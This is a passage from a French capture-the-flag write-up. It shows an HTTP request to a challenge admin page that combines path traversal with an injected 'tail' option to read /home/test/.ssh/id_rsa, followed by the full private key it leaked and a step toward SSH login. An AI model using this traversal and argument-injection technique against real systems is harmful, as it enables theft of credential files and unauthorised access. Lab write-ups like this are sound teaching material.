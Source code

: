 Hum, la clé RSA privée n'a pas l'air complète. Effectivement, pour afficher les logs (fonctionnalité d'origine de la zone d'administration, rappelez-vous ...), le fichier est tronqué pour n'afficher que les 10 dernières lignes ... 10 lignes ... `tail` ? Essayons avec l'option `-n 100` ...

{{< code lang="http" >}}
POST /0cc175b9c0f1b6a831c399e269772661/admin.php HTTP/1.1
Host: ctf.hacklab-esgi.org:5008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.hacklab-esgi.org:5008/0cc175b9c0f1b6a831c399e269772661/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Cookie: PHPSESSID=urj94cee9424reig3bje31b0a2
Upgrade-Insecure-Requests: 1

log=../../../../../../../../home/test/id_rsa -n 100
{{< /code >}}

{{< code lang="plaintext" icon="file-text-o" title="/home/test/.ssh/id_rsa" >}}
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1f3hWbx2726sOiwm+gg8Td2261E7QSJhQHcQFEns7Ubonx6E
+YU4BgzQt136gK42RwoGOph8H/Tu0zfjGIx9IQOIDG8VmCItfUDFCexoqoZB2cj2
9sLKgA/VZqRJiSka1+uibcyIgFnyDegbSXt42J6XL6xZaT56aq539s8M/aFSWNEf
8yTBG7k4E0ZWqexBhXDK3rNJ1veH3EcJXBjYgitDLXSS/VPE7op6MlD5q7ZdNt28
45idJ5tT+U8xrht71oGiIswxi1dXz0VvjXOIJIk1iQIyRdiGIvPpHIY+Dxw2FTHo
pi7Z3M5hjoq36LQryHjVbUVaUrvkyeQtZXeDIQIDAQABAoIBAHloJrhAwsGo6rG+
ZwaoMX6D8cmkNpgHp2Fpq4e3QWKFPmk4aX0fZd+Y2bmO6hajwEuhllMcPB/tWKoh
JQjCfCOE22UiiP/dNC3B14h/xgopTab/642oijcJxKsNPmNBHOev2mGtDyyy2y+k
pgaUtMVBhMkZYUjil5V7ErjGU7p5CCqeZUditEMKq9eAAq8oNGq84L0ZKqx4dyPN
Ai36I8Nygk1SpYBod+K7lUYDDfd+ZPR/yEVhfHP9JqLdezfpeJW7SQvgc4Fb0rEY
+tvM0IfyIR/9tB7IrfNuXG6S+UjoP5eybasUMDn0sqSGYLfaq1pFZYolneDkrpeV
9mPBoAECgYEA+LJUBHTrdKWqxtwkugg05Iu5nEMTGhUmZ4b6x2MRGeadqPF6u9+R
0eubqX+oNWAKBgtHQSzE8faLnOJ6lc2oEN6jeukCDStYg//aIaEyZf2r/uBs0+zA
QNO8CQ5dXK5sowaFPgqXZ0mIFUmtDOgSm6M3IRc4BK6nYlxClVzTs4ECgYEA3Eal
GLMBNykaR0jCD1CartiTZay6ld1rCZVJWjONDgJGtzi0tW1j7Mr5jk0dwfp7cJVu
/Dx+sc4Om/nJ3h15pvvcrKnv0kPhqXX4h+dFmz2psTKmjYjpsff0eLRJS9JHVNEb
svu/zHqzzrRsm1un3Ikcvy0lnG31sg6kJ8EXH6ECgYEApe/Wv2KD+EDRwf4BQ19W
a2gPYIQgqraR+WHG0mL3diC58Y+uJMz3rulV47KZuYNrLL05vfLxNcEbRoKW6H1g
NmFXExuFkuPpG6oLEYVM62Bm8pksA/tkC907CY/cG4sGUYB4Rv0qKHCXrByMqp/u
SoqMrjef2P/wD2EfzCkz2AECgYBIr98m6VrLUvri7vVqjFSewcTR1k+zyF7byLFt
3Hj9WG7xYvruq2w/5TK4bGYXbopxOj5naab9EVvsyF5+twc/vPiy2VjT76Z1fwJG
BmEHuy9V07r2FWnYWlQHyKYvKPJ04JPdWgmOdicDXLJCCdq4gV5FD6bLmdVrrj0p
CSSSQQKBgQCI3TUMYeR/4+86B6i2sldPVtn52QrOHeaDwRfZ1Z7TRYPY6gIvKBLd
VVU6YcP0KwZUHeUOC7qNxSCTnB7FkANad+D/7a0MGqAGCmWChS5GD6zpqhW+tKkY
zc9Ur+20TJHIwAKloaZLiMdcpdyFUQQRStXCGD6wqbw8UxGfx1Fd0g==
-----END RSA PRIVATE KEY-----
{{< /code >}}

Et voilà, nous pouvons à présent nous connecter en SSH sur le port TCP/5007 avec le compte **test** :
